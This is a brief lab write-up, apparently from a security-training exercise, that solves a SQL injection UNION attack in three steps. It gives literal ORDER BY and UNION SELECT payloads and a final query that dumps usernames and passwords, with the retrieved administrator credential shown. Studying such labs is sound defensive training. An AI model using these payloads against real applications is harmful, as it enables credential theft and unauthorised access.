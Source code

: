 # Retrieving multiple values in a single column
## Description
 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

### step 1
#### Determine the number of columns on both tables in order to use the UNION attack
'+order+by+1-- = response 200
'+order+by+2-- = response 200
'+order+by+3-- = response 500 

##### analysis 
The table has 2 columns

### step 2 
####  Determine the data types of each columns 
'+UNION+SELECT+'abc',NULL-- = response 500
'+UNION+SELECT+NULL,'abc'-- = response 200

##### Analysis
The second column is of string data type.

### step 3
#### Retriving the contents of the users table
'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- = response 200

results = administrator~nc1ne4hr8o19e8j8kmws

![image](https://user-images.githubusercontent.com/44478872/150288480-610ca2e9-a9e3-4c66-90ca-85cb79d0b822.png)

